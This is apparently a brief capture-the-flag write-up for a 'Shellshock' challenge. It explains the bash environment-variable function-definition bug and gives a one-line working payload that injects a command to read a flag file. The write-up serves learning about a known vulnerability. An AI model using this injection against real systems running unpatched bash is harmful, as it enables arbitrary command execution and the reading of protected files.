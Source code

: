 # Shellshock
## Solution
The server uses a vulnerable bash version. This vulnerability, called shellshock, allows arbitrary commands to be executed via environment variables. 

The vulnerability is caused by Bash processing trailing strings after function definitions in environment variable values.

<p align="center"><img  src="https://news.sophos.com/wp-content/uploads/2014/10/sophos-bash-shellshock-infographic-web-plus-size1.jpg" /></div>

## Usage
```
exploit: env t='() { :; }; cat /home/shellshock/flag' ./shellshock
```